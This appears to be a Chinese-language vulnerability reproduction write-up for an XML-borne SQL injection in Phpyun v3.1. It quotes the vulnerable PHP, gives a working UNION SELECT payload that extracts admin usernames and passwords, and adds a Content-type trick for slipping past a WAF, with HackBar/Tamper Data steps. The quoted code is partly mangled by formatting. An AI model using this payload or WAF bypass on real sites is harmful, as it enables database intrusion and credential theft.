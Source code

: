 # Phpyun v3.1 xml 注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3090](https://www.zhihuifly.com/t/topic/3090)

# Phpyun v3.1 xml 注入漏洞

## 一、漏洞简介

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

## 二、漏洞影响

3.1 build14061

## 三、复现过程

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg()
{
$postStr = $GLOBALS["HTTP_RAW_POST_DATA"];

```
if (!empty($postStr)){

```
 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
          $fromUsername = $postObj-&gt;FromUserName;
          $toUsername = $postObj-&gt;ToUserName;
          $keyword = trim($postObj-&gt;Content);
          $time = time();
          $textTpl = "&lt;xml&gt;
 &lt;![CDATA[%s]]&gt;
 &lt;![CDATA[%s]]&gt;
 %s
 &lt;![CDATA[%s]]&gt;
 &lt;![CDATA[%s]]&gt;
 0
 &lt;/xml&gt;"; 
```

if(!empty( $keyword ))

{

$msgType = “text”;

$contentStr = “Welcome to wechat world!”;

$resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);

echo $resultStr;

}else{

echo “Input something…”;

}

```
 }else {
   echo "";
   exit;
  } 
``` `}` 
```

这里将$postStr = $GLOBALS["HTTP_RAW_POST_DATA"]，通过 simplexml_load_string解析后的内容，将其直接带入了$textTpl。

然而$postStr = $GLOBALS["HTTP_RAW_POST_DATA"] ，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if($MsgType=='event')
{
$MsgEvent = $postObj->Event;
if ($MsgEvent=='subscribe')
{
$centerStr = "config['sy_webname'])."！/n 1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售 XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！]]>";
$this->MsgType = 'text';

```
 }elseif ($MsgEvent=='CLICK')
  {
   $EventKey = $postObj->EventKey;
   if($EventKey=='我的帐号'){
    $centerStr = $this->bindUser($fromUsername);

}elseif($EventKey==‘我的消息’)

{

$centerStr = $this->myMsg($fromUsername);

}elseif($EventKey==‘面试邀请’)

{

$centerStr = $this->Audition($fromUsername);

}elseif($EventKey==‘简历查看’)

{

```
$centerStr = $this-&gt;lookResume($fromUsername); 
```

}elseif($EventKey==‘刷新简历’)

{

```
$centerStr = $this-&gt;refResume($fromUsername); 
``` 
```

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind($wxid='')
{

```
if($wxid)
{
 $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
}
if($User['uid']>0)
{
 $User['bindtype'] = '1';
 $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

}else{

$Token = $this->getToken();

$Url = ‘[https://api.weixin.qq.com/cgi-bin/user/info?access_token=’.$Token.’&openid=’.$wxid.’&lang=zh_CN](https://api.weixin.qq.com/cgi-bin/user/info?access_token='.%24Token.'&openid='.%24wxid.'&lang=zh_CN)’;

$CurlReturn  = $this->CurlPost($Url);

$UserInfo    = json_decode($CurlReturn);

$wxid        = $wxid;

$wxname      = $UserInfo->nickname;

$this->config[‘token_time’] = time();

$User[‘cenetrTpl’] = ‘<![CDATA[您还没有绑定帐号，config[‘sy_weburl’].’/wap/index.php?m=login&wxid=’.$wxid.’">点击这里进行绑定!]]>’;

}

return $User; `}` 
```

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

```
Content-type:text/xml;charset=utf-8 
```

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![image](img/5cab61023ded42d334495b61bb74b950.png)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar` 的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

![image](img/d2bef9ab9703693df03b71a7c24c8102.png)

#### payload文件:

##### 注:payload文件内容需手动输入相应位置

```
<?xml version="1.0" encoding="utf-8"?>
  <xml>
    1111
    1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
    1402550611
    event
    CLICK
    我的账号
    0
  </xml> 
```

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data` ，点击启动。

![image](img/f95383a207528fddfb49ec6bbc7cf7dd.png)

现在前提工作已经做好，接下来重新访问网站，Tamper Data 就会抓取到数据包，再对数据包进行更改，操作如图：

![image](img/a919a67706dd098587f6bcebbbc53036.png)

然后点击确定就可以将构造好的数据包发出去：

![image](img/3532eb0a626bc91b65be0eb0f379fd77.png)

成功获取管理员账号密码。

## 参考链接

> https://blog.csdn.net/whatiwhere/article/details/84862236